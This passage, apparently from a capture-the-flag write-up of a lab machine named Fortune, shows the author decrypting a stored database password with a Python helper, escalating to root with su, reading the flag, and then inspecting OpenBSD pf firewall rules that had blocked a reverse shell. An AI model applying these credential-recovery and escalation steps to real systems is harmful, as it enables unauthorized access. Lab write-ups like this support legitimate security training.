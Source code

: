 ```

```

I’ll just use a `python` shell, and import `crypto.py`. Then I run the `decrypt` function passing in:

```

root@kali# python
Python 2.7.16 (default, Apr  6 2019, 01:42:57)
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import crypto
>>> enc_dba_pass = "utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz"
>>> bobs_hash = "$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg"
>>> crypto.decrypt(enc_dba_pass, bobs_hash)
'R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!'

```

### Shell as root

With the password, I can get a shell as root from my ssh session as charlie with `su`:

```

fortune$ su
Password:
fortune# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)

```

And get `root.txt`:

```

fortune# cat /root/root.txt
335af7f0...

```

## Beyond Root - pf

### Configuration

At the start of the box, I had command execution, and tried to get a reverse shell, but failed. It looked like nothing I did would connect out. Once I got root, I checked out the firewall rules.

OpenBSD doesn’t use `iptables` as I’m used to. It uses something called `pf`, for packet filter. I can interact with it using `pfctl`. I’ll run with the `-sr` flags to show the rules:

```

fortune# pfctl -sr 
block return all
pass in quick on em0 inet proto tcp from <rfc1918> to (em0) port = 22 flags S/SA
pass in quick on em0 inet proto tcp from <rfc1918> to (em0) port = 80 flags S/SA
pass in quick on em0 inet proto tcp from <rfc1918> to (em0) port = 443 flags S/SA
pass in quick on em0 inet proto icmp from any to (em0) icmp-type echoreq code 0
pass out on egress proto tcp all flags S/SA
pass out on egress proto udp all
pass out on egress proto icmp all
block return out log proto tcp all user = 55
block return out log proto tcp all user = 67
```